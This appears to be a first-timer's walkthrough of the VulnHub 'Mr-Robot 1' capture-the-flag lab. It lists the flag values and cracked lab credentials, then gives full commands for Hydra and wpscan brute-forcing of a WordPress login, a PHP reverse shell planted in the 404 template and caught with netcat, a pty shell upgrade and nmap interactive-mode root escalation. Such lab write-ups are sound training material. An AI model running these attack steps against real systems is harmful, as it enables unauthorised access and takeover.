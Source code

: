 # **Info**
**Completed 01/22/2023**

https://www.vulnhub.com/entry/mr-robot-1,151/

**Flags:**
1. /robots/key-1-of-3.txt: 073403c8a58a1f80d943455fb30724b9
2. /home/robot/key-2-of-3.txt: 822c73956184f694993bede3eb39f959
3. /root/key-3-of-3.txt: 04787ddef27c3dee1ee161b21670b4e4
# **Flag 1**
## nmap
- Nmap
- ran `nmap -sS --script vuln 10.10.1.102` to check for open ports and vulns
	- Found port 22 closed, 80 and 443 open
	- vuln script enumerated hidden dirs, led me to `/robots/`
	- found `key-1-of-3.txt` and navigated to URL to view it
## fosocity.dic 
- downloaded `fsocity.dic` which was a massive wordlist with repeated words
	- used `cat fsocity.dic | sort -u > filtered.txt` to sort the list and filter it down to unique values
# **Flag 2**
## /wp-login.php Enumeration
### Username
- other writeup obtained the POST request (wireshark?) from when they tried to login, showing that the form took the parameters `log` and `pwd`
- they then use Hydra to bruteforce the username with the command: `hydra -vV -L fsocity.dic.uniq -p wedontcare 192.168.2.4 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'`
	- `-vV`: verbose
	- `-L fsocity.dic.uniq`: use the filtered wordliFst (filtered.txt on my box)
	- `-p wedontcare`: password doesn't matter here
	- `http-post-form`: what it is we're targeting, in this case an HTTP POST form
	- `'/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'`: telling hydra where to insert the username from the list and the irrelevant password in the POST, and indicating that it is a failed attempt if the returned data contains "Invalid username"
- Once this had run, the username `elliot` was found
### Password
- wpscan could be used to search for the password using the same wordlist (filtered.txt)
	- Ran `wpscan -url http://10.10.1.102/wp-login.php -U elliot -P filtered.txt` which returned the password of `ER28-0652`
## PHP Reverse Shell
### Editing a PHP page
- Looked around the admin panel, found Editor page under Appearance
	- First page that could be edited was the 404 page, which runs a php script
	- used `locate php-re` to find a PHP Reverse Shell on the Kali install
	- edited IP value in the template to my own, set port to 443
	- copied the entire script into the 404 page editor and saved
### Using the reverse shell
- ran `netcat -lnvp 443` to listen for the reverse shell
	- triggered a 404 page to gain access
	- found password MD5 hash `robot:c3fcd3d76192e4007dfb496cca67e13b` and `key-2-of-3.txt` in `/home/robot/`
	- permission denied for key file
	- used [crackstation](https://crackstation.net) to crack hash for result of `abcdefghijklmnopqrstuvwxyz`
	
- Back in the reverse shell
	- tried `su robot` to login to that user account, returned an error saying I had to run that command from a terminal
	- ran `python -c 'import pty;pty.spawn("/bin/bash")` to get into a bash terminal
	- could then use `su robot` to login to robot account and open `key-2-of-3.txt`
# Flag 3
## Privilege Escalation
- Use `find / -perm +6000 | grep '/bin/'` to locate binaries with the su ID bit set, which may be used for privilege escalation.
	- [gtfobins](https://gtfobins.github.io) provides instructions for privilege escalation for binaries like this.
- used `nmap --version` to find that it was version 3.81, which has a privilege escalation vulnerability
	- simply run `nmap --interactive`, then use `!sh` to start a shell within the nmap interactive mode
	- run `id` or `whoami` to see that there are now root privileges
	- navigate to `/root/` to view the final flag file, `key-3-of-3.txt`


# **Lessons Learned**
- Literally this entire CTF
	- First one I've ever done
- Learned about using the vuln script with nmap for some hidden directory enumeration
- Learned a way of bruteforcing usernames on HTTP POST forms with hydra
- Learned how to bruteforce passwords on wordpress pages using wpscan
- Learned how to inject a PHP Reverse Shell anywhere that php runs and the code can be edited at an admin level
- Discovered [crackstation](https://crackstation.net) for password hash cracking
- Learned how you can use a simple python command to get a bash shell from a basic reverse shell
- Learned about the nmap 3.81 privilege escalation vulnerability and how to use it (`!sh` while in interactive mode)